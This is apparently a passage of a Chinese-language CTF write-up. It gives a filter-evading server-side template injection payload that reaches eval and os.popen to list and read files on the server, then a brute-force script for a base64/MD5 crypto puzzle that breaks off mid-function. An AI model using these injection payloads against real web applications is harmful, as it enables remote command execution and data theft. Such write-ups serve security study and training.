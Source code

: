 不能用`[]`可以使用`.get()`绕过，被过滤的字符串可以拆分成2个字符串或者使用格式化字符串的方法。

```python
{{vvv.__class__.__init__.__globals__.get("__bui"+"ltins__").get("e"+"val")("__imp"+"ort__(\"o"+"s\").po"+"pen(\"ls\").read()")}}
```

执行命令列目录，发现没有传说中的flag，但是发现了一个以数字+英文组合为文件名的文件，经过确认，就是flag

```python
{{vvv.__class__.__init__.__globals__.get("__bui"+"ltins__").get("e"+"val")("__imp"+"ort__(\"o"+"s\").po"+"pen(\"cat f41321d3b61338c8d239e75d971f34a4\").read()")}}
```

本题源码在`/app/none`路径下，也可通过构造类似命令进行读取。



# crypto

## MaybeBase

YMFZZTY0D3RMD3RMMTIZ 这一串到底是什么！！！！为什么这么像base32却不是！！！明文的md5值为16478a151bdd41335dcd69b270f6b985

小爆破列出所有字符串组合的md5

得到YmFzZTY0d3Rmd3RmMTIz的md5值为16478a151bdd41335dcd69b270f6b985
flag为base64wtfwtf123

```python
import base64,hashlib
def change(ch):
	if ord(ch)<92:
		return chr(ord(ch)+32)
	else:
		return chr(ord(ch)-32)
'''
if __name__ == '__main__':
	flag='?????'
	rawstr=base64.b64encode(flag)
	finalstr=''
	for i in range(0,len(rawstr)):
		if ord(rawstr[i])>96 and ord(rawstr[i])<123:
			finalstr+=change(rawstr[i])
		else:
			finalstr+=rawstr[i]
	print rawstr
	print finalstr
'''
//以上是题目
def enum(x,depth):
	if depth==17:
		cipher=''.join(x)
		if check(cipher):
			exit()
		return
	x1=x[::1]
	x2=x[::1]
	x2[t[depth]]=change(x2[t[depth]])
	enum(x1,depth+1)
	enum(x2,depth+1)

def check(cipher):
	
	m=hashlib.md5()
	b=base64.b64decode(cipher)
	m.update(b)
```